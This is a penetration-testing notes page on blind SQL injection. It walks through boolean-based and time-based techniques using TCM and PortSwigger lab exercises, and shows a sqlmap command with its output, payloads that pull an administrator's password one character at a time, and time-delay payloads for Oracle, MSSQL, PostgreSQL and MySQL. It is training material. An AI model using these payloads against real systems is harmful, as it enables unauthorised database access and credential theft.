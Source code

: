 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Blind

{% hint style="info" %}
Blind SQLi occurs when an attacker cannot see the results of their queries directly but can infer information based on the application's behavior and responses.
{% endhint %}

## Boolean-based

{% hint style="info" %}
Boolean-based SQLi occurs when the attacker sends queries that return different responses based on a true/false condition, inferring information from the application's behavior.
{% endhint %}

### Headers

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

This time the application generates both a `POST` and a `GET` request. The former includes two parameters (`username` and `password`), but they don't appear to be vulnerable to SQLi. The latter does not contain any parameter, but we can search for other injection points.&#x20;

We are looking for points where the server might potentially process, such as the `User-Agent` and the `Cookie` headers. In this case, the `Cookie` header includes the `session` parameter and its value is certainly processed by the back-end (Figure 1).

<figure><img src="../../../../.gitbook/assets/web_sqli_blindBoolean_1.png" alt=""><figcaption><p>Figure 1: Inspecting potential SQLi positions.</p></figcaption></figure>

When testing the `session` parameter, we can see that we can alter the response's behavior (`Content-Length` differences) (Figure 2), but we don't get any data within the response like we did while testing the [In Band SQLi](in-band.md#basic-workflow); this is what makes it a Blind SQLi.

<figure><img src="../../../../.gitbook/assets/web_sqli_blindBoolean_2.png" alt=""><figcaption><p>Figure 2: Validating <code>sqlmap</code>'s findings.</p></figcaption></figure>

Passing the request to [`sqlmap`](../../../../tools/web/sqlmap.md), it confirms that the `session` cookie is indeed injectable, therefore, we can continue the testing process as we did in the [In Band](in-band.md#basic-workflow) section.

{% code overflow="wrap" %}
```bash
$ sqlmap -r get_request.txt --batch --dbms=MySQL --level 5 --technique=B --dbms=MySQL
<SNIP>

sqlmap identified the following injection point(s) with a total of 33 HTTP(s) requests:
---
Parameter: session (Cookie)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: session=6967cabefd763ac1a1a88e11159957db' AND 9499=9499-- UfuX
---
[12:37:03] [INFO] testing MySQL
[12:37:03] [INFO] confirming MySQL
[12:37:03] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP 7.4.33, Apache 2.4.54
back-end DBMS: MySQL >= 8.0.0
```
{% endcode %}

### Conditional

> _The example below is based on PostSwigger's_ [_Blind SQL injection with conditional responses_](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses) _lab._

{% code overflow="wrap" %}
```sql
SELECT database(); -- test
SELECT substring(database(),1,1); -- t (position,length)
SELECT substring(database(),1,3); -- tes (position,length)
SELECT * FROM products WHERE name = 'Laptop' AND substring((SELECT password FROM users WHERE username='Jessamy'),1,1)>'m';
```
{% endcode %}

Burp's Active Scan identifies a potential SQLi flaw (Figure 3).

<figure><img src="../../../../.gitbook/assets/web_sqli_blind_1.png" alt=""><figcaption><p>Figure 3: Identifying &#x26; validating an SQLi vulnerability.</p></figcaption></figure>

We can send the two responses to Comparer and check what is the differs between them (Figure 4).

<figure><img src="../../../../.gitbook/assets/web_sqli_blind_2.png" alt=""><figcaption><p>Figure 4: Using Burp's Comparer to see what differs between the two responses.</p></figcaption></figure>

Now that we know that if our injected statement is `TRUE` we will get a `Welcome back!` message, we can use the `SUBSTRING` function and start enumerating the `administrator`'s password. We can do that efficiently by performing a Cluster bomb attack with Intruder (Figure 5).

{% code overflow="wrap" %}
```sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_sqli_blind_3.png" alt=""><figcaption><p>Figure 5: Performing a Cluster bomb attack with Burp's Intruder.</p></figcaption></figure>

All we need to do now is to filter out the irrevelant responses and sort them by `Payload 1` (Figure 6).

<figure><img src="../../../../.gitbook/assets/web_sqli_blind_4.png" alt=""><figcaption><p>Figure 6: Enumerting the <code>administrator</code>'s password.</p></figcaption></figure>

{% hint style="info" %}
For performing the above task with a custom Python-based script, check the [Copy As Python-Requests](https://portswigger.net/bappstore/b324647b6efa4b6a8f346389730df160) Burp's extension.
{% endhint %}

## Time-based

{% hint style="info" %}
Time-based SQLi occurs when the attacker sends queries that introduce deliberate delays, inferring information based on the time it takes for the application to respond.
{% endhint %}

> _The example below is based on PostSwigger's_ [_Blind SQL injection with time delays_](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays) _lab._

We can start by testing the time-based payloads found on [PortSwigger's SQLi cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet). using string concatenation (Figure 7).

<table><thead><tr><th width="184">Database</th><th>Payload</th></tr></thead><tbody><tr><td>Oracle</td><td><code>dbms_pipe.receive_message(('a'),10)</code></td></tr><tr><td>Microsoft</td><td><code>WAITFOR DELAY '0:0:10'</code></td></tr><tr><td>PostgreSQL</td><td><code>SELECT pg_sleep(10)</code></td></tr><tr><td>MySQL</td><td><code>SELECT SLEEP(10)</code></td></tr></tbody></table>

```sql
'+||pg_sleep(10)-- -;
```

<figure><img src="../../../../.gitbook/assets/web_sqli_blind_5.png" alt=""><figcaption><p>Figure 7: Successfully injecting a time-based payload.</p></figcaption></figure>
